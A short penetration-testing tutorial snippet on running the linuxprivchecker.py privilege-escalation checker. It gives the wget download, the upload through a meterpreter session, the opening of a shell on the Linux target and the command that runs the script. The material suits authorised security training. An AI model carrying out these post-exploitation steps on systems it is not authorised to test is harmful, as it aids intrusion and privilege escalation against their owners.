

linuxprivchecker.py
Linux privilege escalation checker
search for privilege escalation vulnerabilities. This script is not included with Kali Linux by default
First we have to download the script and then we have to upload it( to do that we need a meterpreter session)
kali@kali:~$ wget http://www.securitysift.com/download/linuxprivchecker.py #first we have to download the script
meterpreter > upload linuxprivchecker.py . #upload of the scripts
meterpreter > execute -f /bin/sh -i -c #shell on the linux target machine
shell> python linuxprivchecker.py |& tee outputLinuxprivchecker.txt #run the script
At the end of the results of the commands executed the script will advise us some useful privilege escalation exploit
